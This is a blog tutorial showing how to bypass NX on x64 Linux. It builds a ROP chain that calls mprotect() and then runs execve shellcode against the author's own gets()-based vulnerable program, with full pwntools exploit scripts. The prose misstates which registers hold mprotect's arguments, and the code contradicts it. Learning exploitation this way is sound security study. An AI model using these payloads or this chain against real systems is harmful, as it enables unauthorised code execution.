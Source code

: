 ```yaml
---
layout: post
title:	"ELF x64 Bypass NX with mprotect()"
date:	2020-08-25
categories:
    - blog
tags:
    - binary
---
```



In this blogpost, I’ll explain how to bypass **NX** using **mprotect()** in order to make the stack executable.

For the purpose, I created the following vulnerable C program.

~~~
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
~~~

This is the gcc command to compile the executable with **NX** enabled and **PIE** disabled.

~~~
gcc -o chall chall.c -fno-stack-protector -no-pie -Wl,-z,noexecstack
~~~

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img1.png)

**ASLR** is disabled and **NX** is enabled.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img2.png)
![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img3.png)

Let’s run the executable in GDB. In order to trigger the buffer overflow we will give 300 ‘A’s as input.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img4.png)

as we expected, the **RBP** register is overwritten with our ‘A’s.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img5.png)

Using pattern_create, we can generate a payload in order to calculate the exact offset that overwrite the **RBP** register.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img6.png)

The **RBP** register is overwritten by the value **0x3769413669413569**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img7.png)

Using pattern_offset, we can calculate the offset.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img8.png)

Because the executable is a 64 bit ELF, the maximum address is **0x7FFFFFFFFFFFF**, we can overwrite the **RIP** register by adding 8 byte to the **RBP** register and using the following value.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img9.png)

We successfully overwrite the **RIP** register with the value **0x0000424242424242**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img10.png)

Because NX is enabled, our stack is not executable, we can use the **[mprotect()](https://www.man7.org/linux/man-pages/man2/mprotect.2.html)** function in order to make the stack executable.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img11.png)

as reported in the documentation:

~~~
mprotect() changes the access protections for the calling process's memory pages containing any part of the address range in the interval [addr, addr+len-1].  addr must be aligned to a page boundary.

If the calling process tries to access memory in a manner that violates the protections, then the kernel generates a SIGSEGV signal for the process.

prot is a combination of the following access flags: PROT_NONE or a bitwise-or of the other values in the following list: 

PROT_NONE: The memory cannot be accessed at all.

PROT_READ: The memory can be read.

PROT_WRITE: The memory can be modified.

PROT_EXEC: The memory can be executed.

...
~~~

We will set address to **0x7fffffffe000**, the value **0x1000** as length and the protection to **RWX**, which is **0x7**.

The calling convention for ELF 64 is the following: 
* Arguments in RDI, RSI, RDX, RCX, R8, R9 
* Return Value in RAX 

So we need to put the stack address in the **RDI** register, the length in the **RDX** register and the value **0x7** in the **RCX** register.

Using gdb, it is possible to find the **mprotect()** address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img12.png)

Using ROPgadget, we can find the gadgets we need to put the values into the registers.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img13.png)

There is no “pop rdx” instruction in our binary, we can look for it into the libc.

Using the vmmap command, we can see the libc address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img14.png)

And with ROPgadget, we can find the offset of the gadget.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img15.png)



Using the following exploit, we can use the “attach” command into gdb in order to debug the process and find our shellcode address.

~~~
from pwn import *
import struct

p = process("./chall")

libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += struct.pack("Q",0x00000000004011fb) # pop rdi ; ret
payload += struct.pack("Q",0x7fffffffe000) # stack address
payload += struct.pack("Q",0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += struct.pack("Q",0x1000) # size
payload += struct.pack("Q",0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += struct.pack("Q",libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += struct.pack("Q",0x7) #mode
payload += struct.pack("Q",0x7ffff7eea1e0) # mprotect address
payload += “B” * 8
payload += "C” * 200
raw_input()

p.sendline(payload)
p.readline()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img16.png)

As we can see, our ‘C’s start from **0x7fffffffe210**.
Let’s update our script with a shellcode and try to pop a bash shell, after the **mprotect()**, our stack will be executable.

~~~
from pwn import *
import struct

p = process("./chall")

shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += struct.pack("Q",0x00000000004011fb) # pop rdi ; ret
payload += struct.pack("Q",0x7fffffffe000) # stack address
payload += struct.pack("Q",0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += struct.pack("Q",0x1000) # size
payload += struct.pack("Q",0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += struct.pack("Q",libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += struct.pack("Q",0x7) #mode
payload += struct.pack("Q",0x7ffff7eea1e0) # mprotect address
payload += struct.pack("Q",0x7fffffffe210) # shellcode address
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
~~~

And yes, it works.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img17.png)

